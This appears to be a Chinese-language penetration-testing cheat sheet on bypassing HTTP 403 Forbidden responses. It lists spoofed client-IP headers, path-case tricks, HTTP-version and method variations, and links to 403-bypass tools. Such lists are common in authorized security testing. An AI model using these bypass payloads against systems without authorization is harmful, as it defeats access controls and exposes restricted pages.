 # 请求响应不同状态码绕过

## 403

### 设置headers头

    X-Forwarded-For: 127.0.0.1
    X-Forwarded: 127.0.0.1
    Forwarded-For: 127.0.0.1
    Forwarded: 127.0.0.1
    X-Requested-With: 127.0.0.1
    X-Forwarded-Proto: 127.0.0.1
    X-Forwarded-Host: 127.0.0.1
    X-remote-IP: 127.0.0.1
    X-remote-addr: 127.0.0.1
    True-Client-IP: 127.0.0.1
    X-Client-IP: 127.0.0.1
    Client-IP: 127.0.0.1
    X-Real-IP: 127.0.0.1
    Ali-CDN-Real-IP: 127.0.0.1
    Cdn-Src-Ip: 127.0.0.1
    Cdn-Real-Ip: 127.0.0.1
    CF-Connecting-IP: 127.0.0.1
    X-Cluster-Client-IP: 127.0.0.1
    WL-Proxy-Client-IP: 127.0.0.1
    Proxy-Client-IP: 127.0.0.1
    Fastly-Client-Ip: 127.0.0.1
    True-Client-Ip: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-Host: 127.0.0.1
    X-Custom-IP-Authorization: 127.0.0.1
    
### 修改hosts文件

修改本地hosts文件，将域名绑定本地ip

### 扫描403路径的子路径

对403的路径进行dirsearch扫描

### http协议版本改为1.0同时清除掉请求中除了第一行以外的数据

> 如果服务器和任何其他安全机制没有以正确的方式配置，我们不需要将 Host 放在 header 中。它将目标地址本身放在标头中，称为本地地址。也使用这种方法绕过（CDN）并获取服务器IP在 Location 中，它在返回中向我们显示了域本身的地址。再次使用相同的方法发送请求，这次它会显示服务器的主地址。

### 大小写绕过

举例

    xxx.com/admin 403
    xxx.com/Admin 200
    
### HTTP请求方法绕过

    OPTIONS
    GET
    HEAD
    POST
    PUT
    TRACE
    PURGE
    CONNECT
    PROPFIND
    PROPPATCH
    MKCOL
    COPY
    MOVE
    LOCK
    UNLOCK
    VERSION-CONTROL
    REPORT
    CHECKOUT
    CHECKIN
    UNCHECKOUT
    MKWORKSPACE
    UPDATE
    LABEL
    MERGE
    BASELINE-CONTROL
    MKACTIVITY
    ORDERPATCH
    ACL
    PATCH
    SEARCH
    ARBITRARY
    BIND
    LINK
    MKCALENDAR
    MKREDIRECTREF
    PRI
    QUERY
    REBIND
    UNBIND
    UNLINK
    UPDATEREDIRECTREF
    options
    get
    head
    post
    put
    trace
    purge
    connect
    propfind
    proppatch
    mkcol
    copy
    move
    lock
    unlock
    version-control
    report
    checkout
    checkin
    uncheckout
    mkworkspace
    update
    label
    merge
    baseline-control
    mkactivity
    orderpatch
    acl
    patch
    search
    arbitrary
    bind
    link
    mkcalendar
    mkredirectref
    pri
    query
    rebind
    unbind
    unlink
    updateredirectref
    POUET
    TRACK
    
### 工具推荐

    https://github.com/Dheerajmadhukar/4-ZERO-3
    https://github.com/iamj0ker/bypass-403
    https://github.com/yunemse48/403bypasser
    https://github.com/sting8k/BurpSuite_403Bypasser
    https://github.com/lobuhi/byp4xx
    
